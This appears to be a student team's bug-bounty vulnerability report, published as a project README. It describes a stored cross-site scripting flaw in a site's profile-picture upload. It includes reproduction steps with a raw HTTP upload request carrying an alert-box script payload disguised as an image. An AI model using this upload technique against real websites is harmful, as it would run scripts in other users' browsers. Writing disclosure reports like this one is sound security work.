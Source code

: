 Major Project - Bug hunting on any target of openbugbounty

Team Members - vidhya v, Abhirav Praveen ,Rahul jebin Raju, Snehal Tirkey
Issue Description
•	Target website we got on openbugbounty - beachhouse.com
•	Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
Issue Identified
•	The consultant identified that the update profile picture is vulnerable to cross site scripting, it is possible to upload an image with a MIME type of text/html this is then stored on the user’s profile as an XSS payload, the outline below demonstrates the steps taken to exploit and reproduce.
Risk Breakdown
•	Risk: High
•	Difficulty to Exploit: Medium
•	CVSS2 Score: 7.9
Steps to Reproduce
The following steps indicate a proof of concept outlined in three(3) steps to reproduce and execute the issue.
Step 1: Navigate to https://www.beachhouse.com/portal/reg.php and select edit

Step 2: Modify the profile image request with a local proxy, in this case the consultant is using Burp Suite. Change the Content type from image to text/html as shown in the post request:
POST /file/upload/ HTTP/1.1
Host: beachhouse.com
---snip----

-----------------------------900627130554
Content-Disposition: form-data; name="stored_XSS.jpg"; filename="stored_XSS.jpg"
Content-Type: text/html

<script>alert('ZephrFish')</script>
-----------------------------900627130554
When this is sent, the following response is shown:
HTTP/1.1 200 OK
Date: Tue, 02 May 2023 14:31:44 GMT
---snip---

{"url": "https://example.com/56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg?Expires=1465669904&Signature=dNtl1PzWV&Key-Pair-Id=APKAJQWLJPIV25LBZGAQ", "pk": "56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg", "success": true}
Step 3: The file has been uploaded to a Application and is hyperlinked to from the profile page. By simply following the link to the image which in this case is:
The payload is executed, thus this demonstrates the issue is stored cross site scripting.
Affected Demographic
This issue will affect all users on the site who view the profile of the attacker, when the image is rendered the payload is executed instead of a profile image. Additionally when the malicious user posts anything on the forums the payload will execute.
References
For more information check out reference https://www.owasp.org/index.php/Cross-site_Scripting_(XSS).
•	[1] OWASP XSS Explained
•	[2] OWASP XSS Prevention Cheat Sheet
# major-project
